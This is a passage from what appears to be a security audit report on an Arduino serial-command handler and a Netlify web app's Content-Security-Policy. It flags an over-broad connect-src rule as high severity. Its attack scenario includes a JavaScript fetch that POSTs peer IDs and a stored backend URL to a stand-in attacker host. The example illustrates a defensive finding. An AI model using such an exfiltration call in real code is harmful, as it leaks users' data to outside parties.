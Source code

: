 ```c
        // Clear any remaining buffer
        while (Serial.available() > 0) {
            Serial.read();
        }

        command.trim();

        // Validate command is not empty
        if (command.length() == 0) {
            return;
        }

        lastCommandTime = currentTime;

        // Process validated command
        processCommand(command);
    }
}

void processCommand(String command) {
    // Existing command processing logic...
}
```

---

#### 4. Excessive CSP Permissions - Wildcard in connect-src
**File:** `/Users/jagmeetsinghsachdeva/Documents/GitHub/stream/netlify.toml:21`
**CWE-1021:** Improper Restriction of Rendered UI Layers
**CVSS Score:** 7.5 (High)

**Vulnerable Configuration:**
```
Content-Security-Policy = "... connect-src 'self' https://0.peerjs.com wss://0.peerjs.com https://*.peerjs.com wss://*.peerjs.com http: https: ..."
```

**Description:**
The CSP includes `http:` and `https:` in `connect-src`, which allows connections to ANY HTTP/HTTPS endpoint. This defeats the purpose of CSP and enables data exfiltration.

**Attack Scenario:**
```javascript
// If XSS vulnerability exists, attacker can:
fetch('https://attacker.com/exfiltrate', {
    method: 'POST',
    body: JSON.stringify({
        peerIds: document.getElementById('peerId').textContent,
        backendUrl: localStorage.getItem('arduinoBackendUrl'),
        // Any sensitive data
    })
});
```
